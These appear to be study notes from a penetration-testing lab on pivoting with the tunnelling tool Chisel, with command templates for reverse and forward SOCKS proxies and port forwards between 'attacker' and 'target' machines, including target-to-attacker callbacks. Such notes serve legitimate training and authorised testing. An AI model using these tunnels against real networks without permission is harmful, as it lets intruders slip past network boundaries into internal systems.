 # Task 14 - Pivoting - Chisel
Chisel is a TCP/UDP tunnel over HTTP

https://github.com/jpillora/chisel

Chisel has to be on both the attacker and target machine.  Chisel has two modes: client and server

Reverse SOCKS proxy with chisel:
* Connection from target back to attacker, port 1080 is used by default once the connection is established
```
attacker:

./chisel server -p [listen_port] --reverse &

target:
./chisel client [attacker_ip]:[listen_port] R:socks &
```

Forward SOCKS proxy with chisel:
```
target:

./chisel server -p [listen_port] --socks5

attacker:

./chisel client [target_ip]:[listen_port] [proxy_port]:socks
```

* Note: configure proxychains to use socks5

Remote port forward with chisel:
```
attacker:

./chisel server -p [listen_port] --reverse &

target:

./chisel client [attacker_ip]:[listen_port] R:[local_port]:[target_ip]:[target_port] &
```
* listen_port is the port that we started the chisel server on
* local_port is the port you connect to on the attacker machine that links you to target_port on the target machine

Local port forward with chisel:
```
target:

./chisel server -p [listen_port]

attacker:

./chisel client [target_ip]:[listen_port] [local_port]:[target_ip]:[target_port]
```
